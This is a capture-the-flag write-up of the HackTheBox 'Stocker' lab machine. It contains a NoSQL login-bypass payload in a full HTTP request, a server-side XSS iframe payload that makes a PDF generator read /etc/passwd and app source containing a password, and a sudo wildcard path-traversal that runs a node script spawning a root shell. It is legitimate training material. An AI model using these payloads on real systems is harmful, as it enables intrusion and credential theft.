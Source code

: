 ```yaml
---
description: HackTheBox Stocker Writeup
cover: ../.gitbook/assets/image (2).png
coverY: 0
---
```


# \[Easy] Stocker

<figure><img src="../.gitbook/assets/image.png" alt=""><figcaption><p>Machine stats</p></figcaption></figure>

### Recon <a href="#recon" id="recon"></a>

#### Services <a href="#services" id="services"></a>

`nmap`: **22 - SSH** and port **80 - nginx**.

```nmap
PORT      STATE  SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|  3072 3d12971d86bc161683608f4f06e6d54e (RSA)
|  256 7c4d1a7868ce1200df491037f9ad174f (ECDSA)
|_  256 dd978050a5bacd7d55e827ed28fdaa3b (ED25519)
80/tcp    open  http        nginx 1.18.0 (Ubuntu)
|_http-generator: Eleventy v2.0.0
|_http-title: Stock - Coming Soon!
| http-methods:
|_  Supported Methods: GET HEAD
|_http-favicon: Unknown favicon MD5: 4EB67963EC58BC699F15F80BBE1D91CC
|_http-server-header: nginx/1.18.0 (Ubuntu)
```

#### Subdomains <a href="#subdomains" id="subdomains"></a>

`gobuster`: dev.stocker.htb

```bash
➜  ~ gobuster vhost --url http://stocker.htb/ --wordlist ~/Wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt --append-domain -t 100
===============================================================
Gobuster v3.4
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:             http://stocker.htb/
[+] Method:          GET
[+] Threads:         100
[+] Wordlist:        /home/ennl/Wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt
[+] User Agent:      gobuster/3.4
[+] Timeout:         10s
[+] Append Domain:   true
===============================================================
2023/02/07 19:01:27 Starting gobuster in VHOST enumeration mode
===============================================================
Found: dev.stocker.htb Status: 302 [Size: 28] [--> /login]
```

#### Website <a href="#website" id="website"></a>

So now, we have plain `stocker.htb` page without anything, and subdomain page `dev.stocker.htb` with redirect to `dev.stocker.htb/login`.

### Exploitation <a href="#exploitation" id="exploitation"></a>

#### Authentication bypass via NoSQL <a href="#authentication-bypass-via-nosql" id="authentication-bypass-via-nosql"></a>

[https://book.hacktricks.xyz/pentesting-web/nosql-injection#basic-authentication-bypass](https://book.hacktricks.xyz/pentesting-web/nosql-injection#basic-authentication-bypass)

I found that the login is susceptible to NoSQL Authentication Bypass after experimenting with various methods. We can bypass auth using

```
{"username": {"$ne": null}, "password": {"$ne": null} }
```

so, POST-request in BurpSuite gonna be look like:

```http
POST /login HTTP/1.1
Host: dev.stocker.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 24
Origin: http://dev.stocker.htb
Connection: close
Referer: http://dev.stocker.htb/login
Cookie: connect.sid=s%3AglWx1W4l6AXfs4gYZq-X2EzGPvkRAknn.aTADasosaVSVpIrCRQR6U5P%2BRe8JeRJwk6aNyTMXe1Q
Upgrade-Insecure-Requests: 1
token: ddac62a28254561001277727cb397baf

{"username": {"$ne": null}, "password": {"$ne": null} }
```

Once the request has been modified, you get an auth bypass:

<figure><img src="http://localhost:1313/stocker/0.png" alt=""><figcaption></figcaption></figure>

In browser:

<figure><img src="http://localhost:1313/stocker/1.png" alt=""><figcaption></figcaption></figure>

### Client-Side XXS <a href="#client-side-xxs" id="client-side-xxs"></a>

Now, via page `/stock` add product to basket and intercept HTTP-request with BurpSuite.

<figure><img src="http://localhost:1313/stocker/1.png" alt=""><figcaption></figcaption></figure>

We have an API `/api/order` to make an order, which sends the \`\`\`basket" as a parameter.

And order details are available on /api/po/ID.V

`/api/order` is a dynamic PDF generator, which has vulnerable to Server Side XSS parameter `title`.

{% embed url="https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting/server-side-xss-dynamic-pdf" %}

```
{"basket":[{"_id":"638f116eeb060210cbd83a91","title":"<iframe src=file:///etc/passwd height='1500'  width='700' ></iframe>","description":"It's an axe.","image":"axe.jpg","price":12,"currentStock":21,"__v":0,"amount":3}]}
```

Response:

<figure><img src="http://localhost:1313/stocker/3.png" alt=""><figcaption></figcaption></figure>

Do the same with `file:///var/www/dev/index.js` and get user SSH password.

![1.png](http://localhost:1313/stocker/4.png)

### Privelege Escalation <a href="#privelege-escalation" id="privelege-escalation"></a>

`sudo -l`:

```bash
angoose@stocker:~$ sudo -l 
Matching Defaults entries for angoose on stocker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User angoose may run the following commands on stocker:
    (ALL) /usr/bin/node /usr/local/scripts/*.js
```

We got a wildcard in the path, which means we can put another path in place of that wildcard, but we still should use node.js.

[https://gtfobins.github.io/gtfobins/node/](https://gtfobins.github.io/gtfobins/node/)

Create a `root.js` in user dir:

```bash
angoose@stocker:~$ nano root.js

node -e 'require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]})'
```

Then, start it by:

```bash
angoose@stocker:~$ sudo node /usr/local/scripts/../../../home/angoose/root.js
```

And get the root:

```bash
bash-5.0# cat /root/root.txt

f7723bd4b96f3cd26788fcb4f4714b08

```
